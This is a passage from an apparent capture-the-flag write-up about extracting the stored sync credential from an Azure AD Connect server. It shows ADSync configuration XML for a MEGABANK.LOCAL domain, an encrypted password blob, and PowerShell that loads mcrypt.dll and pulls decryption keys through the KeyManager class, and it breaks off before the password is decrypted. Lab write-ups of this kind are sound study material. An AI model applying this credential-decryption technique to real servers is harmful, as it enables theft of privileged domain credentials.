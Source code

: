       <parameter name="crl-check" type="string" use="connectivity" dataType="String">0</parameter>
      <parameter name="ssl-bind" type="string" use="connectivity" dataType="String">0</parameter>
      <parameter name="simple-bind" type="string" use="connectivity" dataType="String">0</parameter>
      <parameter name="Connector.GroupFilteringGroupDn" type="string" use="global" dataType="String" />
      <parameter name="ADS_UF_ACCOUNTDISABLE" type="string" use="global" dataType="String" intrinsic="1">0x2</parameter>
      <parameter name="ADS_GROUP_TYPE_GLOBAL_GROUP" type="string" use="global" dataType="String" intrinsic="1">0x00000002</parameter>
      <parameter name="ADS_GROUP_TYPE_DOMAIN_LOCAL_GROUP" type="string" use="global" dataType="String" intrinsic="1">0x00000004</parameter>
      <parameter name="ADS_GROUP_TYPE_LOCAL_GROUP" type="string" use="global" dataType="String" intrinsic="1">0x00000004</parameter>
      <parameter name="ADS_GROUP_TYPE_UNIVERSAL_GROUP" type="string" use="global" dataType="String" intrinsic="1">0x00000008</parameter>
      <parameter name="ADS_GROUP_TYPE_SECURITY_ENABLED" type="string" use="global" dataType="String" intrinsic="1">0x80000000</parameter>
      <parameter name="Forest.FQDN" type="string" use="global" dataType="String" intrinsic="1">MEGABANK.LOCAL</parameter>
      <parameter name="Forest.LDAP" type="string" use="global" dataType="String" intrinsic="1">DC=MEGABANK,DC=LOCAL</parameter>
      <parameter name="Forest.Netbios" type="string" use="global" dataType="String" intrinsic="1">MEGABANK</parameter>
    </parameter-values>
     <password-hash-sync-config>
                <enabled>1</enabled>
                <target>{B891884F-051E-4A83-95AF-2544101C9083}</target>
             </password-hash-sync-config>
    </adma-configuration>
    8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g95aWEcUSzl7mTXwR4Pe3uvsf2P8Oafih7cjjsubFxqBioXBUIuP+BPQCETPAtccl7BNRxKb2aGQ=
    
    (1 rows affected)
    

The encrypted password is there at the bottom, and the config is at the top.

#### Decrypt

The third section of the script decrypts. First it goes through a series of
hoops to get the decryption object from the KeyManager:

    
    
    add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
    $km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
    $km.LoadKeySet($entropy, $instance_id, $key_id)
    $key = $null
    $km.GetActiveCredentialKey([ref]$key)
    $key2 = $null
    $km.GetKey(1, [ref]$key2)
    
